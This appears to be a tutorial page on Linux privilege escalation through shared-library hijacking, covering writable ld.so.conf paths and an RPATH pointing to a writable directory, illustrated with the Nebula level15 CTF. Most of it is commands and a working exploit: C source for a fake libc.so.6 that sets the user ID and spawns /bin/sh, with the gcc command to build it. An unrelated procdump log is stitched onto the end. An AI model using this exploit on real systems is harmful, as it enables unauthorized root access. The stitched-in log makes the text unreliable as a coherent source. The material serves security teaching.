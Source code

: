 ## Shared Library

### ld.so

The file `/etc/ld.so.conf` indicates **where the loaded configurations files are from**. Typically, this file contains the following path: `include /etc/ld.so.conf.d/*.conf`

That means that the configuration files from `/etc/ld.so.conf.d/*.conf` will be read. This configuration files **points to other folders** where **libraries** are going to be **searched** for. For example, the content of `/etc/ld.so.conf.d/libc.conf` is `/usr/local/lib`. **This means that the system will search for libraries inside `/usr/local/lib`**.

If for some reason **a user has write permissions** on any of the paths indicated: `/etc/ld.so.conf`, `/etc/ld.so.conf.d/`, any file inside `/etc/ld.so.conf.d/` or any folder within the config file inside `/etc/ld.so.conf.d/*.conf` he may be able to escalate privileges.\
Take a look at **how to exploit this misconfiguration** in the following page:


{{#ref}}
ld.so.conf-example.md
{{#endref}}

### RPATH

```
level15@nebula:/home/flag15$ readelf -d flag15 | egrep "NEEDED|RPATH"
 0x00000001 (NEEDED)                     Shared library: [libc.so.6]
 0x0000000f (RPATH)                      Library rpath: [/var/tmp/flag15]

level15@nebula:/home/flag15$ ldd ./flag15
 linux-gate.so.1 =>  (0x0068c000)
 libc.so.6 => /lib/i386-linux-gnu/libc.so.6 (0x00110000)
 /lib/ld-linux.so.2 (0x005bb000)
```

By copying the lib into `/var/tmp/flag15/` it will be used by the program in this place as specified in the `RPATH` variable.

```
level15@nebula:/home/flag15$ cp /lib/i386-linux-gnu/libc.so.6 /var/tmp/flag15/

level15@nebula:/home/flag15$ ldd ./flag15
 linux-gate.so.1 =>  (0x005b0000)
 libc.so.6 => /var/tmp/flag15/libc.so.6 (0x00110000)
 /lib/ld-linux.so.2 (0x00737000)
```

Then create an evil library in `/var/tmp` with `gcc -fPIC -shared -static-libgcc -Wl,--version-script=version,-Bstatic exploit.c -o libc.so.6`

```c
#include<stdlib.h>
#define SHELL "/bin/sh"

int __libc_start_main(int (*main) (int, char **, char **), int argc, char ** ubp_av, void (*init) (void), void (*fini) (void), void (*rtld_fini) (void), void (* stack_end))
{
 char *file = SHELL;
 char *argv[] = {SHELL,0};
 setresuid(geteuid(),geteuid(), geteuid());
 execve(file,argv,0);
}
```


[20:20:58 - WARN]: Procdump not running with elevated credentials. If your uid does not match the uid of the target process procdump will not be able to capture memory dumps
[20:20:58 - INFO]: Timed:
[20:21:00 - INFO]: Core dump 0 generated: ./sleep_time_2021-11-03_20:20:58.1714